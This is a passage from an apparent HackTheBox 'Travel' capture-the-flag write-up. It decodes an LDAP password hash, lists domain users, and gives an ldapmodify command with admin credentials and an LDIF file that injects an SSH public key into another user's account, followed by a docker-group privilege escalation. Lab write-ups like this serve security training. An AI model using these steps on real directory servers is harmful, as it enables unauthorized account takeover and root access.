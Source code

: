 ```bash
userPassword:: e1NTSEF9MEpaelF3blZJNEZrcXRUa3pRWUxVY3ZkN1NwRjFRYkRjVFJta3c9PQ== # -> Theroadlesstraveled

[snip]

# domainusers, groups, linux, servers, travel.htb
dn: cn=domainusers,ou=groups,ou=linux,ou=servers,dc=travel,dc=htb
memberUid: frank
memberUid: brian
memberUid: christopher
memberUid: johnny
memberUid: julia
memberUid: jerry
memberUid: louise
memberUid: eugene
memberUid: edward
memberUid: gloria
memberUid: lynik
gidNumber: 5000
cn: domainusers
objectClass: top
objectClass: posixGroup
```
Also `getent passwd` shows the users from `ldapsearch` and `getent group` lists them in the group `domainusers`:
```bash
frank:*:5001:5000:Frank Stewart:/home@TRAVEL/frank:/bin/bash
gloria:*:5010:5000:Gloria Wood:/home@TRAVEL/gloria:/bin/bash
jane:*:5005:5000:Jane Rodriguez:/home@TRAVEL/jane:/bin/bash
christopher:*:5003:5000:Christopher Ward:/home@TRAVEL/christopher:/bin/bash
jerry:*:5006:5000:Jerry Morgan:/home@TRAVEL/jerry:/bin/bash
lynik:*:5000:5000:Lynik Schmidt:/home@TRAVEL/lynik:/bin/bash
johnny:*:5004:5000:Johnny Miller:/home@TRAVEL/johnny:/bin/bash
eugene:*:5008:5000:Eugene Scott:/home@TRAVEL/eugene:/bin/bash
brian:*:5002:5000:Brian Bell:/home@TRAVEL/brian:/bin/bash
louise:*:5007:5000:Louise Griffin:/home@TRAVEL/louise:/bin/bash
edward:*:5009:5000:Edward Roberts:/home@TRAVEL/edward:/bin/bash

domainusers:*:5000:frank,brian,christopher,johnny,jerry,louise,eugene,edward,gloria,lynik,julia
```
So after reading up a bit, to see what we can do with our privileges, the following seems most promising:
- modifying their UID and GID -> even if we can't become root directly we might be able to exploit docker/lxd
- adding SSH public keys -> to log in

These two options will indeed elevate us to root. In order to modify the attributes of users using the `ldapmodify` command we need to create so called `.ldif` files:
```bash
ldapmodify -x -H ldap://ldap.travel.htb -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled -f file.ldif -c
```
```bash
# SSH.ldif
# adding SSH key
dn: uid=frank,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changeType: modify
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: your-public-key
```
I tried a couple of GIDs (0, lxd..) first but docker was the one that opened the path to root for me.